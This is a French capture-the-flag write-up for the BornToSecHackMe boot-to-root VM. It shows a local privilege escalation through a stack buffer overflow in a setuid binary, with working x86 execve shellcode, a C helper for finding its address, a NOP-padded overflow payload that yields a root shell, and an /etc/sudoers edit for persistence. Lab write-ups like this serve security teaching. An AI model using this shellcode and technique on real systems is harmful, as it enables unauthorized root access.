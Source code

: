# Writeup numéro 4:
## Étape 0 - Lancement de la VM:

![BootToRoot](/assets/start_vm.png)

## Étape 1 - Connexion à la VM

Nous pouvons nous connecter à la VM avec les identifiants zaz trouvés avec la méthode décrite sur le [writeup1](/writeup1.md)

## Étape 2 - Exécution buffer overflow

Dabord on va créer une nouvelle variable d'environnement avec l'instruction pour lancer un nouveau terminal.

```sh
export OPEN_TERMINAL=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
```

On écrit un petit programme qui nous retourne l'adresse de la variable d'environnement passé en parametre.

```c
// getEnvAddress.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
	if (argc == 2)
	{
		char* ptr = getenv(argv[1]);
		printf("%p\n", ptr);
	}
}
```

On le compile et on lui passe le nom de la variable pour connaître son adresse.

```sh
~$ gcc getEnvAddress.c -o getEnvAddress
~$ ./getEnvAddress OPEN_TERMINAL
0xbffffe60
```

On peut alors lancer exploit_me avec une chaine de caractères qui écrit plus de ce qui est prévu.

```sh
~$ ./exploit_me $(python -c 'print "\x90" * 140 + "\x60\xfe\xff\xbf"')
```

On remplit les 140 caractères avec des [NOP](https://en.wikipedia.org/wiki/NOP_(code)) (qui fait passer à l'octet suivant) et on écrit après l'adresse (en [little-endian](https://en.wikipedia.org/wiki/Endianness#Little-endian)) de la variable d'environnement qui contient le shellcode.

Cela nous permet avoir un terminal sur lequel on aura les droits root.

```
~$ ./exploit_me $(python -c 'print "\x90" * 140 + "\x60\xfe\xff\xbf"')
��������������������������������������������������������������������������������������������������������������������������������������������`���
# id
uid=0(root) gid=0(root) groups=0(root),1005(zaz)
```
Pour donner tous les privileges à zaz on peut modifier les droits du fichier /etc/sudoers, ajouter zaz après root et on change encore les droits du fichier.

```
# chmod 666 /etc/sudoers
```

```vim
[...]
16 # Cmnd alias specification
17
18 # User privilege specification
19 root    ALL=(ALL:ALL) ALL
20 zaz     ALL=(ALL:ALL) ALL
21
22 # Members of the admin group may gain root privileges
23 %admin ALL=(ALL) ALL
[...]
```

```
# chmod 440 /etc/sudoers
```

Nous pouvons maintenant passer root avec le mot de passe zaz.

```
zaz@BornToSecHackMe:~$ sudo su
[sudo] password for zaz:
root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=0(root) groups=0(root)
```

[Plus d'informations](https://beta.hackndo.com/retour-a-la-libc/)